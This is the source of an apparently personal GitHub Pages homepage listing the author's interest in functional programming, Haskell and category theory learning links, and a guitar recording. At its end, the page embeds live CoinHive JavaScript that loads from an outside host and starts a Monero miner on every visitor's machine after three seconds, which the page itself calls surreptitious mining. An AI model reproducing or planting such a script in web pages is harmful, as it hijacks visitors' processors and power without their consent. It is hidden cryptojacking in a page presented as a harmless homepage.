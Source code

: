```yaml
---
layout:
---
```

Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>

I am interested in engineering effective software using<br>
functional programming, type theory, and category theory.

<!--
compilers, blockchain, gpgpu

also ai/ml, genomics, 3d games

contact me
bohadi@users.noreply.github.com
-->

helpful accessible learning resources:<br>
[Parallel and Concurrent Programming in Haskell](http://chimera.labs.oreilly.com/books/1230000000929/index.html)<br>
[Practical Foundations for Programming Languages](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[Category Theory For Programmers](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[Write You A Haskell](http://dev.stephendiehl.com/fun/)<br>
[What I Wish I Knew When Learning Haskell](http://dev.stephendiehl.com/hask/)<br>
[Homotopy Type Theory](https://homotopytypetheory.org/book/)<br>
[The Rust Programming Language](https://doc.rust-lang.org/stable/book/second-edition/)<br>
[The Glasgow Haskell Compiler - Archicture of Open Source Applications](http://www.aosabook.org/en/ghc.html)<br>
[annual topics, Oregon Programming Languages Summer School](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[nLab wiki](https://ncatlab.org/nlab/show/HomePage)<br>
[Arch Linux wiki](https://wiki.archlinux.org/)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>
[r/rust](http://www.reddit.com/r/rust)<br>


more nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[SEP/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>


I enjoy playing the guitar, here is a short recording.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

<br>

Thank you for visiting.<br>
Finally, this page can mine Monero on your machine surreptitiously.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);
</script>

<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
